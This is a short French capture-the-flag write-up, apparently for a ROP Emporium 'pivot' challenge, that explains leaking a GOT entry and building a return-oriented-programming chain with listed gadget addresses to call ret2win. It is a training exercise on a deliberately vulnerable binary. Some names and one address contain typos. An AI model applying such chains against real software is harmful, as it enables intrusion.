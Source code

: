Noter le -4 sur l'adresse de pivot comme vu plus haut.

La chaine d'exploitation s'execute donc on recupère l'adresse foothold_function@got
Calcule de l'adresse de ret3win@got.

**Premier message replay.**

On envoie "ok"

**Second message**

On effectue un débordement en ecrasant SEBP.

| ROP entry | comment |
| ----------- | ------- |
| ret2win | adresse calculée de re2win|


### Methode 2 call reg

L'idée est d'appeller la fonction re2win avec une "call reg".
Le rechistre doit être chargé avec l'adresse de ret2win.




Ce qui donne le synoptique suivant :

- Appel de foothold pour garnir la got
- Lecture de l'entrée de la GOT
- ajustement du registre reg
- call reg

Recherche  des gadgets nécessaires

On trouve 2 gadgets de ce style.

    0x080485f0 : call eax
    0x0804863d : call edx

Ensuite pour charger le contenu de l'entrée GOT dans un ce ces registres :

    0x08048830 : mov eax, dword ptr [eax] ; ret

Enfin, pour charger eax avec l'adresse de l'entree GOT.

    0x0804882c : pop eax ; ret

Pour incrémenter eax :

    0x08048833 : add eax, ebx ; ret
    0x080484a9 : pop ebx ; ret



Premier message


| address   | comment |
|----------|--------------|
| 0x0048520 | foothold_function@plt
| 0x804882c | pop eax ; ret
| 0x804a024 | foothold_function@got
| 0x8048830 | mov eax, dword ptr [eax] ; ret
| 0x80484a9 | pop ebx ; ret
| 0x1f7 | Pour ebx
| 0x8048833 | add eax, ebx ; ret
| 0x80485f0 | call eax
